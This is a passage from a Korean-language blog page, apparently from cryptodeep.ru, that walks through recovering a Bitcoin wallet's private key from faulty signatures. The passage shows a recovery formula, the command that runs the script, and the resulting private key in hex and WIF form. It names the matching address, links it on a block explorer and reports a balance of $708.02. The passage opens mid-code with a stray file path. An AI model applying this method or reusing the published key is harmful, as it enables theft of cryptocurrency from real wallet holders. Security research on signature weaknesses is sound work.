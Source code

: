 print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>스크립트는 다음 공식을 사용하여 개인 키를 계산합니다.</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>스크립트를 실행해 봅시다:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-128.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1208"/></figure>



<p><code>PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">bitaddress를</a></strong>&nbsp;열고&nbsp;다음을 확인합니다.</p>



<pre class="wp-block-code"><code>ADDR: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o
WIF:  L2vaWmjh7XpV9AMWDjmNSGPQNEd4QG7YGAMMqPEmGSt8WSppysCV
HEX:  aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/001-2.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1236"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>Приватный ключ найден!</code></p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-197-1024x458.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1373"/><figcaption class="wp-element-caption"><a href="https://www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o" target="_blank" rel="noreferrer noopener"><strong><code>www.blockchain.com/btc/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o</code></strong></a></figcaption></figure>



<p><code>BALANCE: $ 708.02</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>

